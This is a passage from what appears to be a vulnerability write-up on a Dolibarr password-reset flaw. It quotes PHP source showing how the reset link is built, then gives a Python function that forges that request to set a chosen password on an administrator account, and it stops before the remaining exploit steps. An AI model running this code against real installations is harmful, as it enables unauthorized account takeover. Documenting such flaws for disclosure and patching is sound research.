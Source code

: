 ```php
            $newpassword = $edituser->setPassword($user, $edituser->pass_temp, 0);
            dol_syslog("passwordforgotten.php new password for user->id=".$edituser->id." validated in database");
            header("Location: ".DOL_URL_ROOT.'/');
            exit;
        }
        else
        {
            $langs->load("errors");
            $message = '<div class="error">'.$langs->trans("ErrorFailedToValidatePasswordReset").'</div>';
        }
    }
}

...

```

Or see how the mail sent to the user is generated in <span style="color:red">\<ROOT\>/user/class/user.class.php</span>:

File: <span style="color:red">\<ROOT\>/user/class/user.class.php</span>
```php
    public function send_password($user, $password = '', $changelater = 0)
    {

        ...

        if (!$changelater)
        {

            ...

        }
        else
        {
            $url = $urlwithroot.'/user/passwordforgotten.php?action=validatenewpassword&username='.urlencode($this->login)."&passwordhash=".dol_hash($password);

            ...

        }

        ...

    }
```

It is this second method that allows us to create the following function:

```python
def change_password(url, login, pass_temp):
    r = requests.get(url=f"{url}user/passwordforgotten.php?action=validatenewpassword&username={qp(login)}&passwordhash={hash(pass_temp)}",
                     allow_redirects=False, verify=False)
    if r.status_code == 302:
        if DEBUG:
            print(f"    [*] Password changed: {pass_temp}")
        return 1
    return 0
```

Now that our exploit allows us to change the password of an administrator, we just have to perform the following steps:
